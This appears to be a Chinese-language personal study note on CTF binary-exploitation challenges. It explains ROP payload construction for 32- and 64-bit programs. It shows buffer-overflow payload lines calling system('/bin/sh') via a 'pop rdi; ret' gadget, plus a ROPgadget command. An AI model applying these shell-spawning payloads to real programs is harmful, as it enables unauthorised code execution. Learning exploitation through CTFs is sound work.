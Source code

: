 /bin/sh和system的地址为什么和刚才是反的..

晕了....和32 64有关吗....

回头得从头看并且总结一下 回炉重造!

payload = b'a'*0x80 + p64(0xdeafbeef)+ p64(rdi_ret_addr) + p64(bin_addr)+ p64(system_addr)

懂了,是因为需要pop出来, 把这个值放到rdi里面,然后再去调用system的地址,然后system会从rdi里面获得参数,

而32位的程序 payload = b'a'*140 + p32(system_addr) + p32(binsh_addr)

是从栈上获取参数的,所以顺序相反,先调用system函数,然后再从栈上获取参数值

![image-20220922122331665](images/image-20220922122331665.png)

#### babyrop

![image-20220922111417759](images/image-20220922111417759.png)



该有的都有

![image-20220922111445901](images/image-20220922111445901.png)



/bin/sh 601048

system  4005E3

![image-20220922111522411](images/image-20220922111522411.png)

这道题应该和刚才的一样吧

要寻找 pop rdi

ROPgadget --binary ./pwn --only "pop|ret"

![image-20220922111811961](images/image-20220922111811961.png)







#### not_the_same_3dsctf_2016.   32位的

![image-20220922112151415](images/image-20220922112151415.png)

![image-20220922112316918](images/image-20220922112316918.png)



payload = b'a'*0x2D + p32(0xdeadbeef) +p32(0x080489A0) + p32(0x0806d891)

为啥不对捏

还需要把flag打印出来!

你得看他有没有push ebp,这个没有,所以就不需要覆盖
